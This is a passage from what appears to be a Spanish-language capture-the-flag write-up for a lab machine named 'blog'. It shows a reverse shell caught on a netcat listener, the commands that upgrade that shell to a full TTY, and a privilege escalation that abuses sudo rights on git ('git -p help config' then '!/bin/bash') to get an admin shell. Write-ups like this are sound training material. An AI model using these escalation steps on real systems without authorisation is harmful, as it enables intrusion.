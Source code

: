 Donde la escucha:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.82] 48434
whoami
www-data
```

Veremos que ha funcionado por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user admin

Si hacemos `sudo -l` veremos lo siguiente:

```
sudo: unable to resolve host blog: No address associated with hostname
Matching Defaults entries for www-data on blog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on blog:
    (admin) NOPASSWD: /usr/bin/git
```

Veremos que podremos ejecutar el binario `git` como el usuario `admin` por lo que haremos lo siguiente:

```shell
sudo -u admin git -p help config
!/bin/bash
```

Info:

```
admin@blog:/home$ whoami
admin
```

